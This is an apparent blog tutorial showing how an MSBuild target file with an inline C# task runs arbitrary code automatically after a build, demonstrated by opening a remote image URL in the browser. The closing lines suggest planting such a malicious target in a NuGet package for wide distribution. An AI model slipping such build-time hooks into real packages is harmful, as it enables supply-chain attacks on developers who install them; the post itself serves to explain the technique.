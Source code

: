 ```yaml
---
title:  "Write a target file to execute arbitrary code"
---
```


You can read an [introduction about the MSBuild scripting language](https://andreiepure.ro/2022/11/01/msbuild-vocabulary.html).

Let's write a target file that opens a browser when being executed.

```
<?xml version="1.0" encoding="utf-8"?>
<Project>
	<UsingTask
	  TaskName="OpenRemoteImage"
	  TaskFactory="RoslynCodeTaskFactory"
	  AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.Core.dll" >
		<ParameterGroup />
		<Task>
			<Using Namespace="System.Diagnostics"/>
			<Code Type="Fragment" Language="cs">
<![CDATA[
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "https://raw.githubusercontent.com/andreiepure/andreiepure.github.io/master/assets/Evil_Hacker.jpg";
            startInfo.UseShellExecute = true;
            Process process = new Process();
            process.StartInfo = startInfo;
            process.Start();
]]>
			</Code>
		</Task>
	</UsingTask>
	<Target Name="ExecuteArbitraryCode" AfterTargets="CoreBuild">
		<Warning Text="Arbitrary code executed from this task."/>
		<OpenRemoteImage/>
	</Target>
</Project>
```

This target file:
- defines a Task inside of it (`UsingTask`) and opens an URL with the default browser. This is a plain C# program, so you can write anything inside (whatever allows the build process to execute).
  - "RoslynCodeTaskFactory" allows creating inline tasks (otherwise, an "AssemblyFile" attribute pointing to the task DLL should be used instead the "TaskFactory attribute)
- defines a target which writes an warning message to the build output and invokes the defined task

Save the above inside a "foo.target" and then execute

```
dotnet msbuild foo.target
```

and you will see the warning in the build output an the browser window being opened.

# What's next?

You can insert this malicious target file in a NuGet file and distribute to the entire world. I will write more about that in a future article.
